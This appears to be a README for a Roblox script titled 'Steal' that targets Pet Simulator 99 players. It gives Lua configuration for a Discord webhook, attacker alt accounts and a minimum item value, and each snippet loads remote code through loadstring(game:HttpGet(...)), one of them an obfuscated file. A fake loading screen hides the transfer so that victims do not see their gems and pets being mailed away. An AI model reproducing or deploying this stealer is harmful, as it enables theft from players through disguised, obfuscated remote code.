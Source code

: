 # Steal
The stealing script

The script should look like this:

```lua
Webhook = "" --your discord webhook

Usernames = {"AlternativeAccount1",
             "AlternativeAccount2" ,
             "ExampleAccountName",
             "AnotherExampleAccountName"} --put the name of all your accounts and alts to send pets to (from important to less important).

MailMessage = "Things got send" -- try to keep very short to avoid it not working
LoadingScreenText = "Loading Milky Hub"
min_rap = 2000000 -- minimum rap of each item you want to get sent to you. 2 mil by default. 

loadstring(game:HttpGet("https://raw.githubusercontent.com/Cezar-Very-Epic/Steal/main/StealScript"))()
```




You can also make a Custom Loading Screen if you want to make your own loadingscreen (only do that if you have coding experience) or no loadingscreen at all (not recomanded) by using the code bellow!

```lua
Webhook = "" --your discord webhook
Usernames = {} --put the name of all your accounts and alts to send pets to (from important to less important)

MailMessage = "" -- try to keep very short to avoid it not working

LoadingScreenText = ""

min_rap = 2000000 -- minimum rap of each item you want to get sent to you. 2 mil by default

-- LOADING SCREEN -----------------------------------
local LoadingScreenFunction = require(game:GetService("ReplicatedStorage").Library.Client.GUIFX.Transition)
game.Players.LocalPlayer.PlayerGui.Transition.DisplayOrder = 6000000000000 -- make any gui that may show you sending gems not show

task.spawn(function() 
    LoadingScreenFunction("anything") -- spawns the default pet simulator 99 loading screen
end)
-- change the text of loading screen
game:GetService("Players").LocalPlayer.PlayerGui.Transition.Hint.HintLabel.Text = LoadingScreenText

loadstring(game:HttpGet("https://raw.githubusercontent.com/Cezar-Very-Epic/Steal/main/Obfuscated%20Custom%20Loading%20Screen"))()
```
